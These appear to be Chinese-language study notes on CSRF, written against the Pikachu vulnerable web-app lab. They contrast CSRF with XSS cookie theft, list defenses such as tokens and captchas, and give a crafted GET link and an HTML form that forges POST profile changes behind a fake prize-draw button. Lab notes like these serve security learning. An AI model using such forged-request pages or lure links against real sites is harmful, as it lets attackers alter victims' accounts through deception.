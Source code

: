 >​                        ---因此，我们判断一个网站是否存在CSRF漏洞，其实就是判断其对关键信息（比如密码等敏感信息）的操作(增删改)是否容易被伪造。
>​                        2.小白点击了小黑发给的链接，并且这个时候小白刚好登录在购物网上;
>​                        ---如果小白安全意识高，不点击不明链接，则攻击不会成功，又或者即使小白点击了链接，但小白此时并没有登录购物网站，也不会成功。
>​                        ---因此，要成功实施一次CSRF攻击，需要“天时，地利，人和”的条件。
>​                        当然，如果小黑事先在xxx网的首页如果发现了一个XSS漏洞，则小黑可能会这样做：                        欺骗小白访问埋伏了XSS脚本（盗取cookie的脚本）的页面，小白中招，小黑拿到小白的cookie，然后小黑顺利登录到小白的后台，小黑自己修改小白的相关信息。
>​                        ---所以跟上面比一下，就可以看出CSRF与XSS的区别：CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，然后实施破坏。                    
>
>​                        因此，网站如果要防止CSRF攻击，则需要对敏感信息的操作实施对应的安全措施，防止这些操作出现被伪造的情况，从而导致CSRF。比如：
>​                        --对敏感信息的操作增加安全的token；
>​                        --对敏感信息的操作增加安全的验证码；
>​                        --对敏感信息的操作实施安全的逻辑流程，比如修改密码时，需要先校验旧密码等。

## csrf

跨站请求伪造
欺骗用户进行点击，一旦用户点击了，攻击完成

## csrf和xss

csrf是欺骗用户，借助用户权限攻击，但是没有拿到用户权限
xss是直接获取cookie，拿到用户权限

## csrf——get类型，诱导用户点击

登录进去后，点击修改个人信息，抓包，把链接改为：

`http://pikachu.com/vul/csrf/csrfget/csrf_get_edit.php?sex=girl&phonenum=9999&add=usa&email=lili%40pikachu.com&submit=submit`

诱导用户点击，然后就已经不需要用户经过修改流程然后达成修改过程

## csrf——post类型

抓包，获取`sex=girl&phonenum=123&add=usa&email=lili%40pikachu.com&submit=submit`

post提交无法修改参数直接让用户点击。

需要编写相关的能提交参数的含有表单的html，诱导用户去执行这个html：

```php+HTML
http://pikachu.com/vul/csrf/csrfpost/csrf_post_edit.php

sex=girl&phonenum=123&add=usa&email=lili%40pikachu.com&submit=submit

<html>
	<head>
    ...
	</head>

	<form method="POST" action="http://pikachu.com/vul/csrf/csrfpost/csrf_post_edit.php">
	<input type="hidden" name="sex" value="boy"/>
	<input type="hidden" name="phonenum" value="9999"/>
	<input type="hidden" name="add" value="usa"/>
	<input type="hidden" name="email" value="lili%40pikachu.com"/>
	<input type="submit" name="submit" value="点我抽奖">
	</form>
</html>
```
